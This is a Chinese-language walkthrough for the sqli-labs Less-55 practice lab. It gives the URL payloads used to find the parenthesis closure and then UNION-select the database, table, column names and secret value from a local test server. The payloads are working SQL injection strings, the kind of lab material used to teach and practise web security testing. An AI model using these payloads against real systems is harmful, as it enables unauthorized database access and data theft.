

# Less - 55

---

# 通关教程

---

## 1、判断闭合方式

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=1--+ #回显错误
http://192.168.23.128/sqli-labs/Less-55/?id=1'--+ #回显错误
http://192.168.23.128/sqli-labs/Less-55/?id=1"--+ #回显错误
http://192.168.23.128/sqli-labs/Less-55/?id=1)--+ #回显正常
```

​​所以判断这里为数字型注入

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,database()--+
```

​​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​​

---

## 4、查看fmu3heha81表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='fmu3heha81')--+
```

​​

---

## 5、查看secret_A4Z0字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-55/?id=-1) union select 1,2,(select group_concat(secret_A4Z0) from challenges.fmu3heha81)--+
```

​​

​​

‍
